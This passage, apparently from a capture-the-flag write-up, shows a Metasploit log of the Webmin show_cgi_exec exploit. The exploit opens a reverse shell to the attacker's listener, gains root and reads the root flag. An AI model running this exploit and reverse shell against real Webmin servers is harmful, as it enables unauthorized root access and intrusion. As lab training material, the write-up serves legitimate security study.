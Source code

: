 We are all set. Let's exploit.

~~~
msf5 exploit(unix/webapp/webmin_show_cgi_exec) > exploit 

[*] Started reverse TCP double handler on 10.8.50.72:4444 
[*] Attempting to login...
[+] Authentication successfully
[+] Authentication successfully
[*] Attempting to execute the payload...
[+] Payload executed successfully
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo wwkNQ0H13ZRfhiYE;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "wwkNQ0H13ZRfhiYE\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (10.8.50.72:4444 -> 10.10.60.68:32784) at 2020-06-08 19:59:09 +0200


pwd
/usr/share/webmin/file/
whoami
root
cat /root/root.txt
a4b945830144bdd71908d12d902adeee
~~~

Root flag: `a4b945830144bdd71908d12d902adeee`